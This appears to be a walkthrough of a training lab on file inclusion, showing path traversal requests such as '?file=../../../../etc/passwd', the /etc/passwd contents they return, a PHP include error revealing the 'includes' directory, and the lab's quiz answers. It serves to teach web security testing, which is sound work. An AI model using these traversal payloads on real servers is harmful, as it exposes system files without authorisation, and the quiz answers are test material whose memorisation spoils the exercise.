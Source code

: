 http://webapp.thm/index.php?lang=../../../../etc/passwd

Now apply what we discussed, try to read files within the server, and figure out the directory specified in the include function and answer question #2 below.

```
File Inclusion Lab

Lab #1: Include a file in the input form below (welcome.php)
File Name
Current Path
/var/www/html
File Content Preview of /etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false 
```
Give Lab #1 a try to read /etc/passwd. What would the request URI be?
/lab1.php?file=/etc/passwd/

```
lab2.php?file=../../../../etc/passwd
File Inclusion Lab

Lab #2: Include a file in the input form below
File Name
Current Path
/var/www/html
File Content Preview of ../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false 
```

``` error
lab2.php?file=/etc/passwd
File Content Preview of /etc/passwd

Warning: include(includes//etc/passwd) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab2.php on line 26
```
In Lab #2, what is the directory specified in the include function? *includes*
